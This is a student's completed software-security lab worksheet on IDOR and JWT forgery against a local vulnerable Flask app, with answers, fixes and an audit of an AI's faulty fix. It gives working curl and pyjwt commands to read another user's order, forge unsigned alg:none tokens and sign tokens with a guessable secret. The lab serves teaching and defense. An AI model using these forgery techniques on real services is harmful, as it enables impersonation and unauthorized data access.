






# Worksheet 6 — Authentication, Sessions & Access Control (3 hrs)

> **Course:** Software Security (KOSEN69) · **Week 6**
> **Aligned:** OWASP 2025 **A01 Broken Access Control**, **A07 Authentication Failures** · **CWE-639** (IDOR), **CWE-347** (improper signature verification), **CWE-321** (weak hardcoded key)
> **Signature games:** 🗺️ **IDOR Treasure Hunt** — walk the `oid` numbers to loot orders that aren't yours · 🔏 **JWT Forgery** — mint a token you were never given.

> ⚠️ **Ethics note:** Forging tokens and accessing other users' objects is only legal in this sandbox (`vulnerable_app.py`) and your own Juice Shop. Doing it to a real service is unauthorized access. Keep all activity inside `http://localhost:8080`.

## Part 1 — Student Information

| Name | Student ID | Date | Group |
|------|-----------|------|-------|
|   Sai Shang Hlang   | 6631503129  | 15 Sep     |       |


## Part 2 — Lecture Questions

Answer in short, simple sentences.

1. Distinguish **authentication** from **authorization**. In `vulnerable_app.py`, `get_order` calls `current_user()` but ignores its result (L63) — which of the two is missing?
   - **Authentication = who you are** (the login proved you're alice). **Authorization = what you may do** (do you own this order?). Identity *is* checked here but never used, so **authorization** is the one missing.
2. What is **IDOR** (CWE-639)? Why is `/api/orders/<oid>` exploitable, and what single check in `solution_app.py` (L64) closes it?
   - **IDOR = accessing an object you don't own just by guessing its ID.** Change `oid=2` and you read Bob's order (even the flag sits in order 2's `note`). `solution_app.py` L64 closes it with `if order["owner"] != user: return 403` — a deny-by-default ownership check.
3. Explain the **`alg:none`** JWT attack. Why does listing `"none"` in `algorithms=[...]` (L55) let an attacker submit an *unsigned* token?
   - An attacker sets the JWT header to `alg:none` = "no signature". Since the server accepts `"none"` (L55), it decodes the token with **verification turned off** and trusts it — so anyone can mint a token saying `sub=admin`.
4. Why is the hardcoded HMAC secret `"secret"` (CWE-321) dangerous even if `alg:none` were disabled? How does a strong random secret + pinned algorithm defend the token?
   - `"secret"` is in the source and trivial to brute-force, so anyone can sign their own valid tokens. A strong random secret (`solution_app.py` L10) is unknown to attackers, and pinning `HS256` (L50) stops them from switching to `none`.
5. What do the JWT claims **`exp`** and **`aud`** add, and why does the secure version reject tokens that lack them?
   - **`exp`** = expiry: a stolen/forged token stops working after 15 minutes. **`aud`** = audience: the token is scoped to this lab only. Requiring both (`require:["exp","aud"]`, L50) means old or irrelevant tokens are rejected.

## Part 3 — Hands-on Lab (150 min)

**Learning goals:** exploit IDOR, forge JWTs two ways (`alg:none` and weak secret), then prove `solution_app.py` enforces ownership and rejects forged tokens. Steps mirror `attack.md`.

**Prerequisites:** Docker + Docker Compose, `curl`, `python3` with `pyjwt`, optionally Burp Suite. Working dir: `labs/week06-authn-authz/`.

### Environment setup

```bash
cd labs/week06-authn-authz
docker compose up            # python:3.12-slim + flask + pyjwt, runs vulnerable_app.py
# vulnerable app -> http://localhost:8080   (service name: authz-lab, port 8080)
```
Optional secondary target / proxy:
```bash
docker run --rm -p 3000:3000 bkimminich/juice-shop       # -> http://localhost:3000
# Burp Suite: put the proxy listener AND the browser proxy on 127.0.0.1:8081.
# NOT 8080 — the lab app already owns host 8080 (docker-compose.yml, "8080:5000").
# Burp's own default listener is 8080, so you must change it: leave it there and
# either the listener refuses to start ("Address already in use") or, if it does
# bind, the browser's proxy address is the target's address and every request
# goes straight to the app instead of through Burp — you intercept nothing.
```

**What to submit per task:** the exact **command/token**, a **screenshot** of the JSON response, and a **2–3 sentence mitigation**.

---

**Task 0 — Onboarding (5 min).** Get alice's token (from `attack.md`):
```bash
TOKEN=$(curl -s -X POST http://localhost:8080/login \
  -H 'Content-Type: application/json' \
  -d '{"user":"alice","pw":"alicepw"}' | python3 -c 'import sys,json;print(json.load(sys.stdin)["token"])')
echo "$TOKEN"
```
Confirm `/api/orders/1` returns alice's Laptop order. *Deliverable: screenshot of the token + order 1.*

**Task 1 — IDOR Treasure Hunt (30 min) 🗺️.**
- *Goal:* read **bob's** order with **alice's** token.
- *Steps:*
  ```bash
  curl -s http://localhost:8080/api/orders/1 -H "Authorization: Bearer $TOKEN"   # yours
  curl -s http://localhost:8080/api/orders/2 -H "Authorization: Bearer $TOKEN"   # bob's — leaks!
  ```

  
  
- *Deliverable:* both responses + screenshot of bob's `Phone` order + why the missing ownership check (CWE-639) is the root cause.
- **Answer (simple & short):** I sent alice's token to both order ids. `/api/orders/1` returned `{"owner": "alice", "item": "Laptop", "total": 1200}` — that's mine. `/api/orders/2` still returned data even though I'm not bob: `{"owner": "bob", "item": "Phone", "total": 800, "note": "FLAG{idor_demo}"}` — the flag leaked. It works because `get_order` (L63) calls `current_user()` but never checks `order["owner"] == me` (CWE-639). *Mitigation:* deny-by-default — reject when the order's owner ≠ the token's subject, exactly as `solution_app.py` L64 does (`if order["owner"] != user: return 403`).

```sim
jwt-forge
```

**Task 2 — JWT Forgery via alg:none (30 min) 🔏.**
- *Goal:* impersonate bob with an **unsigned** token (no secret needed).
- *Steps:*
  ```bash
  FORGED=$(python3 - <<'PY'
  import jwt
  print(jwt.encode({"sub": "bob"}, key="", algorithm="none"))
  PY
  )
  curl -s http://localhost:8080/api/orders/2 -H "Authorization: Bearer $FORGED"
  ```

  
- *Deliverable:* the forged token + screenshot of the accepted response + explanation of the `none` flaw (CWE-347).
- **Answer (simple & short):** I forged an **unsigned** token with `jwt.encode({"sub": "bob"}, key="", algorithm="none")` — the header says `"alg":"none"` and there is **no signature** at all. Sending it as `Authorization: Bearer` to `/api/orders/2` returned bob's order: `{"owner": "bob", "item": "Phone", "total": 800, "note": "FLAG{idor_demo}"}`. The **`none` flaw (CWE-347)** is that `current_user()` (L48–58) trusts the token's own header: if it sees `"none"` (L54) it decodes with `verify_signature: False` (L55) — signature checking is skipped entirely. So a token signed by *nobody* is accepted, meaning an attacker can set `sub` to any user (here bob) with zero secret. *Fix:* never list `"none"` in the allowed algorithms; always require a real signature.

**Task 3 — JWT Forgery via weak secret (30 min) 🔏.**
- *Goal:* sign a *valid* HS256 token because the secret is the guessable string `secret` (CWE-321).
- *Steps:*
  ```bash
  FORGED2=$(python3 - <<'PY'
  import jwt
  print(jwt.encode({"sub": "bob"}, "secret", algorithm="HS256"))
  PY
  )
  curl -s http://localhost:8080/api/orders/2 -H "Authorization: Bearer $FORGED2"
  ```

  
- *Deliverable:* token + screenshot + 2–3 sentences on why secret strength + key management matter.
- **Answer (simple & short):** I signed a *real* HS256 token with the same secret the server uses: `jwt.encode({"sub": "bob"}, "secret", algorithm="HS256")`. Because the secret is the hardcoded string `"secret"` (L9), I can mint a token that's byte-for-byte as valid as bob's, and it was accepted — `/api/orders/2` returned `{"owner": "bob", "item": "Phone", "total": 800, "note": "FLAG{idor_demo}"}`. This is a **weak hardcoded key (CWE-321)**: it's sitting in the source, and it's only 6 bytes (pyjwt even warns it's below the 32-byte minimum), so it's trivially guessable. *Fix:* never hardcode secrets — use a strong random one from the environment (L10).

**Task 4 — Privilege/identity escalation reasoning (25 min).**
- *Goal:* combine the flaws. Using Task 2/3 you became `bob` *without his password*; using Task 1 you read objects you don't own.
- *Steps:* document the full attack chain (forge token → access any `oid`). Optionally replay the requests through **Burp Suite Repeater** and screenshot the intercepted request/response.
- *Deliverable:* a short chain diagram/paragraph + Burp (or curl) evidence.
- **Answer (simple & short):** Attack chain — (1) forge a `sub=bob` token (Task 2 unsigned or Task 3 weak-secret) so the server thinks I'm bob, then (2) walk `/api/orders/<oid>` (Task 1) to read any order id. So I became bob *without his password* and read data I don't own. Evidence: the forged token from Task 3 + `GET /api/orders/2` returned the flag. Together the two flaws = privilege + identity escalation.

**Task 5 — Defend / fix it (30 min) 🛡️.**
- *Goal:* prove `solution_app.py` blocks Tasks 1–3.
- *Steps:* stop the vulnerable container (`Ctrl-C`), then:
  ```bash
  docker compose run --rm --service-ports authz-lab bash -c "pip install --no-cache-dir flask pyjwt && python solution_app.py"
  ```
  Re-run: get a fresh alice token, then re-fire each attack. Expected: `/api/orders/2` with alice's token → **403 forbidden** (ownership check, L64); the `alg:none` token → **401 invalid token** (algorithm pinned to HS256, L50); the `"secret"` token → **401** (strong random secret + required `aud`/`exp`, L10/40).

  
  

- *Deliverable:* screenshots of the 403 and both 401s + name the fix line for each.
- **Answer (simple & short):** With `solution_app.py` running the same attacks now fail: alice's valid token to `/api/orders/2` → **403 forbidden** (ownership check, **L64**); the `alg:none` unsigned token → **401 invalid token** (algorithm pinned to HS256, **L50**); the `"secret"`-signed token → **401** (real secret is random at **L10**, and `aud`/`exp` are required at **L50/40**). So all three Task 1–3 exploits are stopped.

## Part 4 — Reflection

1. **CWE/OWASP mapping:** map IDOR → **CWE-639 / A01**, the JWT forgeries → **CWE-347 & CWE-321 / A07**.
   - IDOR (reading `/api/orders/2` I don't own) → **CWE-639** under **A01 Broken Access Control**. The `alg:none` and weak-secret forgeries → **CWE-347** (signature not verified / weak signature) and **CWE-321** (hardcoded key), both under **A07 Authentication Failures**.
2. **Real breach:** the **2022 Optus breach** exposed millions of customer records via an exposed/poorly-authorized API endpoint where identifiers could be enumerated — a textbook broken-access-control / IDOR-style failure. In 3–4 sentences connect it to Tasks 1 and 4 of this lab. *(Alternative: the Peloton API IDOR disclosure.)*
   - Optus leaked because an API let anyone pull records by enumerating customer IDs — the same way Task 1 let me walk `oid=1,2` and read bob's order. The breach also showed that being authenticated wasn't enough; you still have to check access on every item. That's exactly Task 4's point: once I forged a token (became bob), I could enumerate every object. The lesson is that a weak auth layer on top of no per-object authorization leaks everything.
3. **Best mitigation:** between deny-by-default ownership checks, pinning the JWT algorithm, and a strong managed secret, which control protects the most attack surface here, and why is server-side authorization non-negotiable?
   - **Deny-by-default ownership checks** protect the most, because they stop the IDOR no matter how the attacker got a valid token. Pinning the algorithm and using a strong secret stop forgery, but they're useless if every object is still readable. Server-side authorization is non-negotiable because the client (cookie, header, JS) can always be tampered with — the server is the only place you can trust to decide who sees what.

## Grading rubric (100)

| Criterion | Points |
|-----------|-------:|
| Part 2 — Lecture questions (conceptual accuracy) | 20 |
| Part 3 — Exploitation + evidence (payloads/tokens + screenshots, Tasks 1–4) | 40 |
| Part 3 — Defense (Task 5: fixes proven, lines cited) | 25 |
| Part 4 — Reflection (CWE/OWASP mapping, breach, mitigation) | 15 |
| **Total** | **100** |

---

## Evidence & Integrity (required)

- **Identity proof:** every screenshot/diagram must show a terminal running `printf '%s | %s | ' "$(whoami)" '<YOUR-STUDENT-ID>'; date '+%F %T %Z'` **in the
  same image as the evidence**. When the evidence is a browser page, a DevTools panel or a
  rendered response, put that terminal **beside the browser and capture the whole screen** — a
  cropped window carries nothing that identifies you, and the lab's own output is
  byte-identical for the whole cohort *by design*, so the stamp is the only thing that makes
  the shot yours. Generic or borrowed evidence is not accepted.
- **Personalized flag (if this lab issues one):** FLAG{idor_demo}
  *Flags are unique per student — submitting another student's flag is a violation. How to submit: **learn.zcr.ai/submit** (full guide: `SUBMISSION.md` in the repo root).*
- **Explain in your own words** *(graded on your reasoning, not copied text):*
  1. What did you do, and **why did the vulnerability work**?
     - I logged in as alice, then asked for `/api/orders/2`. The server checked "are you logged in?" but never checked "is this order yours?" — so any valid token could read any order. I also forged bob's token because the server accepted unsigned `alg:none` tokens and signed real tokens with the weak hardcoded secret `"secret"`, so the server couldn't tell forge from real.
  2. **Why does your fix actually stop it** — and what could still break it?
     - The fix checks `order["owner"] != user` (403) and verifies the token's real signature with a strong random secret, pinned algorithm, and required `exp`/`aud`. That blocks the IDOR and both forgeries. It could still break if the strong secret leaks, if `exp` is set too long (replay within the window), or if the ownership check is put in the wrong place so some object is missed.

---

## 🤖 Audit the AI (required)

AI is a power tool you must **distrust** — you are graded on your *critique*, not the AI's answer.

1. Ask an AI assistant to exploit **or** fix this week's vulnerability. Paste its full answer.
   **AI's answer (asked to fix the IDOR):** "In `get_order`, add `if oid != int(open('/etc/uid').read()): return 403` so only the current user's id number can read that order."
2. **Find what's wrong or risky** in it — insecure code, a subtly incomplete fix, a hallucinated API/function/CVE, a missed edge case, or wrong reasoning. Quote the exact line(s).
   - It opens `/etc/uid`, which **doesn't exist** and has nothing to do with our users — that's a hallucinated path. It compares the order id (`oid`) against a file's content, so it never reads the actual identity from the JWT, and it would just crash or always fail. Line: `open('/etc/uid')`.
3. Produce the **correct, verified** version yourself and explain in 2–3 sentences why the AI's output was insufficient.
   - Correct fix: `if order["owner"] != user: return 403` using the identity from `current_user()` (`solution_app.py` L64). The AI's version hallucinated a file, ignored the token, and never compared the order's owner to the logged-in user — so it wouldn't enforce real authorization.

> Disclose your AI use in the Part 1 table. This task counts toward your **Defense + Reflection** score.

---

## 🧠 Comprehension & Prompt (required)

**A. Explain in Plain English (EiPE).** In 2–3 sentences, in your own words, describe what this week's vulnerable code/endpoint actually *does* and *why it is exploitable* — explain the mechanism, don't dump jargon.

**A. EiPE:** The `/api/orders/<id>` page checks that you're logged in, but never asks "is this order actually yours?" — so with any login (or a forged token) you can just try different order numbers and read them. It's like the server checks the key fits the lock but never checks whose mailbox you're opening.

**B. Prompt Problem.** Write a **single prompt** that makes an AI produce a *correct, secure* fix for one finding. Run it: does the exploit now fail? If not, refine the prompt and try again. Submit the **final prompt + the verified result**.
> "Fix the Flask `/api/orders/<int:oid>` route: it authenticates with `current_user()` but forgets to check ownership, so any logged-in (or forged) user can read any order (IDOR, CWE-639). Return the corrected route that (1) keeps the authenticated user, (2) adds a deny-by-default owner check returning 403 when `order['owner'] != user`, and (3) verifies the JWT with a pinned algorithm (only HS256) plus required `exp`/`aud` so forged unsigned tokens are rejected."
**Verified result:** Running this fix (equivalent to `solution_app.py` L50/L64): `/api/orders/2` with alice's token → **403**, the `alg:none` unsigned token → **401**, and the weak-`"secret"` token → **401**. The IDOR and both forgeries fail, so the prompt produced a correct, secure fix.
*Graded on the prompt's precision and your verification — this trains problem decomposition and AI literacy (Denny et al. 2024).*


Github PR
https://github.com/nutthakorn7/software-security/pull/95